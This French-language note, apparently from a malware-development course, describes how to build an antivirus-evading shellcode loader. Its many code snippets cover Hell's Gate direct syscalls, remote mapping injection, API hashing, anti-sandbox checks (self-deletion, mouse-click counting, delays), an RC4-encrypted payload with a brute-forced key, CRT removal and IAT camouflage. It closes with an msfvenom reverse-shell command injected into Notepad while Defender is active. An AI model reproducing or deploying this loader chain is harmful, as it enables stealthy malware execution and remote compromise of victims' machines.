

# Contournement des antivirus

Cette note ne présente pas de technique inédite : elle assemble en un seul loader toutes les briques étudiées séparément — injection par mapping, syscalls directs, hachage d'API, anti-analyse, chiffrement du payload et suppression de la CRT. L'objectif est de montrer comment ces couches se combinent pour produire un binaire qui s'exécute et se connecte à un serveur de commande alors qu'un antivirus (ici Microsoft Defender) est actif.

## Le cahier des charges du loader

| Fonctionnalité | Brique mobilisée |
|---|---|
| Injection de code distante | `NtCreateSection` / `NtMapViewOfSection` |
| Injection par mapping via syscalls directs | Hell's Gate |
| Résolution des API sans import | Hachage d'API |
| Anti-analyse | Auto-suppression, surveillance des clics, délai |
| Chiffrement du payload | RC4 |
| Récupération de la clé | Force brute sur un octet indice |
| Aucun import CRT | Suppression de la bibliothèque C |

Toutes les briques reposent sur un socle commun : le mécanisme Hell's Gate qui fournit les numéros de service (SSN) des syscalls en lisant l'export table de `ntdll.dll`.

## Organisation du projet

| Fichier | Rôle |
|---|---|
| `Structs.h` | Structures Windows non documentées (`PEB`, `TEB`, `VX_TABLE_ENTRY`, `API_HASHING`) |
| `HellAsm.asm` | Stub assembleur `HellsGate` / `HellDescent` exécutant le syscall |
| `HellsGate.c` | `RtlGetThreadEnvironmentBlock`, `GetImageExportDirectory`, `GetVxTableEntry` |
| `Common.h` | Prototypes, constantes (`INITIAL_SEED`, `NEW_STREAM`), macros `HASHA` / `HASHW` |
| `WinApi.c` | Remplaçants CRT (`_memcpy`, `_toUpper`, `memset`) et fonctions de hachage |
| `Inject.c` | Initialisation des syscalls et injection par mapping |
| `AntiAnalysis.c` | Auto-suppression, clics souris, délai d'exécution |
| `ApiHashing.c` | `GetModuleHandleH` / `GetProcAddressH` |
| `typedef.h` | Pointeurs de fonctions des WinAPI utilisées |
| `Debug.h` | Macros `PRINTA` / `PRINTW` remplaçant `printf` / `wprintf` |
| `IatCamouflage.h` | Camouflage de l'IAT |
| `main.c` | Point d'entrée et payload |

## Hell's Gate : extraire les numéros de syscall

`GetVxTableEntry` parcourt la table d'export de `ntdll.dll` et compare le hachage de chaque nom de fonction à celui recherché. Une fois la bonne fonction trouvée, le code scanne ses premiers octets pour localiser la séquence `mov r10, rcx; mov eax, <SSN>` et en extraire le numéro de service :

```c
// Premiers opcodes attendus dans un stub de syscall non hooké :
//   MOV R10, RCX   (4C 8B D1)
//   MOV EAX, SSN   (B8 xx xx 00 00)
if (*((PBYTE)pFunctionAddress + cw)     == 0x4c
 && *((PBYTE)pFunctionAddress + cw + 1) == 0x8b
 && *((PBYTE)pFunctionAddress + cw + 2) == 0xd1
 && *((PBYTE)pFunctionAddress + cw + 3) == 0xb8) {
    BYTE high = *((PBYTE)pFunctionAddress + cw + 5);
    BYTE low  = *((PBYTE)pFunctionAddress + cw + 4);
    pVxTableEntry->wSystemCall = (high << 8) | low;
    break;
}
```

Le balayage s'arrête aussi s'il rencontre un octet `0x0f 0x05` (instruction `syscall`) ou `0xc3` (`ret`) avant la séquence : cela signifie que le stub a été hooké et que l'adresse est trop lointaine.

Chaque entrée est décrite par `VX_TABLE_ENTRY` :

```c
typedef struct _VX_TABLE_ENTRY {
    PVOID  pAddress;      // adresse de la fonction dans ntdll
    UINT32 uHash;         // hachage du nom de la fonction
    WORD   wSystemCall;   // numéro de service extrait
} VX_TABLE_ENTRY, *PVX_TABLE_ENTRY;
```

### Hachage des noms

L'algorithme `djb2` d'origine est remplacé par `HashStringJenkinsOneAtATime32BitA` / `W`, avec un `INITIAL_SEED` de 8. Les hachages sont calculés hors ligne par un petit projet `Hasher` qui imprime des `#define` à copier dans `Common.h` :

```c
printf("#define %s%s \t0x%0.8X \n", "NtCreateSection", STR,
       HashStringJenkinsOneAtATime32BitA("NtCreateSection"));
```

La structure globale `VX_TABLE` regroupe ensuite les entrées utiles : `NtCreateSection`, `NtMapViewOfSection`, `NtUnmapViewOfSection`, `NtClose`, `NtCreateThreadEx`, `NtWaitForSingleObject`, `NtQuerySystemInformation` et `NtDelayExecution`.

## Injection par mapping via syscalls

`RemoteMappingInjectionViaSyscalls` réalise toute l'injection sans jamais passer par les WinAPI surveillées. La chaîne de syscalls est constante :

| Étape | Syscall | Rôle |
|---|---|---|
| Création de section | `NtCreateSection` | Conteneur `SECTION_ALL_ACCESS`, `PAGE_EXECUTE_READWRITE`, `SEC_COMMIT` |
| Vue locale | `NtMapViewOfSection` | Zone où écrire le payload |
| Vue distante | `NtMapViewOfSection` | Zone exécutable dans le processus cible |
| Exécution | `NtCreateThreadEx` | Thread dont l'entrée est l'adresse du payload |
| Attente | `NtWaitForSingleObject` | Attendre la fin du thread |
| Nettoyage | `NtUnmapViewOfSection` | Retirer la vue locale |
| Fermeture | `NtClose` | Fermer le handle de section |

Le booléen `bLocal` distingue les deux modes. En local, la vue est directement `PAGE_EXECUTE_READWRITE` et la seconde `NtMapViewOfSection` est sautée. En distant, la vue locale reste `PAGE_READWRITE`, une seconde vue est créée dans le processus cible, et c'est son adresse qui alimente `NtCreateThreadEx`. Chaque appel est précédé de `HellsGate(wSystemCall)` puis exécuté par `HellDescent(...)`.

```c
HellsGate(g_Sys.NtCreateSection.wSystemCall);
STATUS = HellDescent(&hSection, SECTION_ALL_ACCESS, NULL, &MaximumSize,
                     PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);

HellsGate(g_Sys.NtMapViewOfSection.wSystemCall);
STATUS = HellDescent(hSection, (HANDLE)-1, &pLocalAddress, NULL, NULL, NULL,
                     &sViewSize, ViewShare, NULL, dwLocalFlag);

memcpy(pLocalAddress, pPayload, sPayloadSize);

HellsGate(g_Sys.NtCreateThreadEx.wSystemCall);
STATUS = HellDescent(&hThread, THREAD_ALL_ACCESS, NULL, hProcess, pExecAddress,
                     NULL, NULL, NULL, NULL, NULL, NULL);
```

Cette étape reprend le principe de [[Injection par mapping]] mais en remplaçant chaque WinAPI par son équivalent natif — voir [[Réimplémentation des injections via syscalls]].

## Énumération des processus sans WinAPI

Le handle de la cible est obtenu avec `NtQuerySystemInformation` et la classe `SystemProcessInformation`, comme dans [[Énumération des processus]]. Le premier appel échoue volontairement avec `STATUS_INFO_LENGTH_MISMATCH` : il sert à connaître la taille du tampon à allouer. Le tableau de `SYSTEM_PROCESS_INFORMATION` est ensuite parcouru via `NextEntryOffset`, et le nom de chaque processus est comparé par hachage (`HASHW`) plutôt que par comparaison de chaînes.

```c
HellsGate(g_Sys.NtQuerySystemInformation.wSystemCall);
HellDescent(SystemProcessInformation, NULL, NULL, &uReturnLen1);
SystemProcInfo = (PSYSTEM_PROCESS_INFORMATION)HeapAlloc(GetProcessHeap(),
                                                        HEAP_ZERO_MEMORY, uReturnLen1);
// second appel avec le bon tampon, puis parcours par NextEntryOffset
```

## Point d'entrée

`InitializeSyscalls` doit être appelé en premier : toutes les autres fonctions dépendent de `g_Sys`. Ensuite, une macro `TARGET_PROCESS` décide du mode ; si elle n'est pas définie, le payload est injecté localement avec le pseudo-handle `-1`.

```c
if (!InitializeSyscalls()) return -1;

#ifdef TARGET_PROCESS
    GetRemoteProcessHandle(TARGET_PROCESS, &dwProcessId, &hProcess);
    RemoteMappingInjectionViaSyscalls(hProcess, Payload, sizeof(Payload), FALSE);
#endif
#ifndef TARGET_PROCESS
    RemoteMappingInjectionViaSyscalls((HANDLE)-1, Payload, sizeof(Payload), TRUE);
#endif
```

## Anti-analyse

Trois mécanismes sont regroupés dans `AntiAnalysis.c`, tous issus de modules antérieurs ([[Anti-debugging]], [[Anti-VM et évasion d'environnement]]) :

- `DeleteSelf` renomme le flux de données `:$DATA` du binaire via `SetFileInformationByHandle` avec `FILE_RENAME_INFO` (nouveau flux `NEW_STREAM`, ici `:Maldev`), puis marque le fichier pour suppression avec `FILE_DISPOSITION_INFO` et `DeleteFile = TRUE`. Le fichier disparaît à la fermeture du handle.
- `MouseClicksLogger` installe un hook bas niveau `WH_MOUSE_LL` via `SetWindowsHookExW` et compte les clics dans une boucle de messages (`GetMessageW`, `DefWindowProcW`). Un bac à sable n'a pas d'activité souris : l'absence de clics trahit un environnement automatisé.
- `DelayExecutionVia_NtDE` dort via `NtDelayExecution` en convertissant des minutes en intervalles de 100 nanosecondes négatifs (`DelayInterval.QuadPart = -(dwMilliSeconds * 10000)`), puis contrôle que le temps écoulé est réel avec `GetTickCount64`.

`AntiAnalysis(dwMilliSeconds)` orchestre le tout : auto-suppression, surveillance des clics pendant la durée demandée, retrait du hook avec `UnhookWindowsHookEx`, puis délai dont la durée croît à chaque itération (`i / 2`, `i` de 1 à 10). Si plus de 5 clics sont comptés, l'environnement est jugé réel.

```c
while (i <= 10) {
    HellsGate(g_Sys.NtCreateThreadEx.wSystemCall);
    HellDescent(&hThread, THREAD_ALL_ACCESS, NULL, (HANDLE)-1,
                MouseClicksLogger, NULL, NULL, NULL, NULL, NULL, NULL);
    HellsGate(g_Sys.NtWaitForSingleObject.wSystemCall);
    HellDescent(hThread, FALSE, &DelayInterval);
    DelayExecutionVia_NtDE((FLOAT)(i / 2));
    if (g_dwMouseClicks > 5) return TRUE;
    g_dwMouseClicks = NULL;
    i++;
}
```

`NtDelayExecution` peut lui aussi être obtenu via Hell's Gate en l'ajoutant à `VX_TABLE`, ce qui évite un `GetProcAddress` visible.

## Chiffrement du payload et force brute de la clé

Le payload est chiffré hors ligne avec `HellShell.exe calc.bin rc4` (voir [[Outils HellShell et MiniShell]]). Le déchiffrement réutilise `SystemFunction032` (RC4) exportée par `Advapi32.dll`, mais la clé elle-même est stockée chiffrée et récupérée par force brute, exactement comme dans [[Déchiffrement par force brute]] :

```c
BYTE RealKey[KEY_SIZE] = { 0 };
int  b = 0;

// l'octet indice (HINT_BYTE) révèle le bon 'b'
while (1) {
    if (((pRc4Key[0] ^ b) - 0) == HINT_BYTE) break;
    else b++;
}

// déchiffrement : (octet ^ b) - index
for (int i = 0; i < KEY_SIZE; i++)
    RealKey[i] = (BYTE)((pRc4Key[i] ^ b) - i);
```

`RealKey` et le payload sont ensuite emballés dans deux structures `USTRING` passées à `SystemFunction032(&Img, &Key)`.

## Hachage d'API

Jusqu'ici, les WinAPI appelées directement apparaissent dans l'IAT. `ApiHashing.c` fournit deux fonctions qui remplacent `GetModuleHandle` et `GetProcAddress` :

- `GetModuleHandleH(dwModuleNameHash)` parcourt la liste `InMemoryOrderModuleList` du PEB, convertit chaque `FullDllName` en majuscules et compare son hachage. La conversion en majuscules évite de dépendre de la casse du nom de module.
- `GetProcAddressH(hModule, dwApiNameHash)` refait le parcours manuel des en-têtes PE (DOS, NT, export directory) et compare le hachage de chaque nom exporté.

Les adresses résolues sont rangées dans une structure `API_HASHING g_Api` (un membre par API), et les appels deviennent `g_Api.pOpenProcess(...)`. Les pointeurs de fonction sont déclarés dans `typedef.h`.

### Le piège des fonctions transférées

Appliquer le hachage à `SystemFunction032` en chargeant `Advapi32.dll` provoque une exception : l'adresse obtenue pointe non pas vers du code mais vers la chaîne `CRYPTSP.SystemFunction032`. Il s'agit d'une *fonction transférée* : `Advapi32` réexporte une fonction réellement implantée dans `Cryptsp.dll`. Le `GetProcAddress` officiel suit ce transfert automatiquement, mais `GetProcAddressH` ne le fait pas. La correction consiste à charger `Cryptsp.dll` (voir [[Format PE]] et [[Parsing des en-têtes PE]]).

## Suppression de la CRT

Pour rendre le binaire autonome de la bibliothèque C, plusieurs adaptations sont nécessaires :

- `printf` et `wprintf` disparaissent au profit des macros `PRINTA` / `PRINTW` de `Debug.h`, qui allouent un tampon, formatent avec `wsprintfA` / `wsprintfW` et écrivent avec `WriteConsoleA` / `WriteConsoleW`. Les impressions sont conditionnées à `#define DEBUG`.
- `memcpy`, `memset` et `toupper` sont remplacés par `_memcpy`, `memset` (via `#pragma intrinsic` / `#pragma function`) et `_toUpper` dans `WinApi.c`.
- Le symbole `_fltused` doit être défini manuellement, sans quoi l'éditeur de liens échoue.

Le détail de la procédure figure dans [[Suppression de la CRT]].

## Camouflage de l'IAT

Dernière couche : `IatCamouflage.h` (voir [[Dissimulation de l'IAT]]) est inclus uniquement dans `main.c` et appelé au début du programme, pour que l'import address table du binaire paraisse anodin aux yeux d'un analyste statique ou d'un moteur de signature.

## Enchaînement complet



## Résultat et limites

Le test de référence utilise un reverse shell Msfvenom injecté dans `Notepad.exe`, Defender restant actif :

```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.16.111 LPORT=4444 -f raw -o reverse.bin
```

L'IAT du binaire produit ne contient que des imports anodins, le payload est chiffré, la clé est cachée, les syscalls sont directs et l'anti-analyse filtre les environnements automatisés. Les limites restent celles de toutes les chaînes de ce type : les syscalls directs neutralisent l'hooking userland mais pas ETW ni les callbacks noyau (voir [[Introduction aux EDR]], [[Introduction aux syscalls]] et [[SysWhispers et Hell's Gate]]), et un C2 bavard (`whoami`, `load powershell`, IPC aux noms reconnaissables) peut faire détecter l'ensemble après l'établissement de la connexion.
